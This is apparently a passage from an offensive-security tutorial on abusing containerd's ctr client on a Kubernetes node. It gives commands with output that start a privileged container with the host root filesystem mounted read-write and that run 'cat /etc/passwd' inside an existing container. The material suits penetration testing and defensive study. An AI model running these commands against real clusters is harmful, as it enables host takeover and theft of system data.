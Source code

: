 ### Running our own containers


To run our own containers, we need to know what container image to use. This obviously depends on what we want to do with the container, but if we just want to achieve the common attacker scenario of running a privileged container with a host filesystem mount almost any regular (non cut down) image will do.  If we can find a suitable container image already available locally, this saves us the step of retreiving one, so lets check for a simple `nginx` image in the locally stored list. We run `image ls` and grep the output like so:

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io image ls | grep nginx
docker.io/library/nginx:1.14.2     application/vnd.docker.distribution.manifest.list.v2+json sha256:f7988fb6c02e0ce69257d9bd9cf37ae20a60f1df7563c3a2a6abe24160306b8d 42.6 MiB  linux/386,linux/amd64,linux/arm/v7,linux/arm64/v8,linux/ppc64le,linux/s390x
```

If we dont find anything suitable for our purposes locally we can always `image pull` something to get what we need, but in this case the image above is fine. 

This is how we run a privileged container with a host filesystem mount at `/host` using this local `nginx` image.

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io run --privileged --mount 'type=bind,src=/,dst=/host,options=rbind:rw' -d 'docker.io/library/nginx:1.14.2' nginx
```

No output is generally a good sign, but we can list containers and grep for `nginx` (the container id we specified in the above command) to confirm our container exists.

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io container ls | grep nginx
3bd8e95274f34f1ecf0b11e19f52127361327742e40ae707ac5613f1365f2e71    docker.io/library/nginx:1.14.2                                          io.containerd.runc.v2
8ebece262e1762688c8f8adf80fe6d017e2043523a0d74f5812530b38524e149    docker.io/library/nginx:1.14.2                                          io.containerd.runc.v2
nginx                                                               docker.io/library/nginx:1.14.2                                          io.containerd.runc.v2
```


### Executing code in running containers

Now lets look at how we execute code in running containers. We will do so in both one of the already running containers we identified as well as in our newly created one.

First lets do this in the existing container that we looked at in detail - the one with id `3373c8e99b9381b150d30998203cbb6593f1e25b4c30a61f16669f9f8b5d8694`.

If we then want to run a single command inside this container, and get the output, we can do this as follows (running `cat /etc/passwd`).

```
$ sudo ctr --address /var/run/containerd/containerd.sock -n k8s.io task exec --exec-id catpwd 3373c8e99b9381b150d30998203cbb6593f1e25b4c30a61f16669f9f8b5d8694 cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```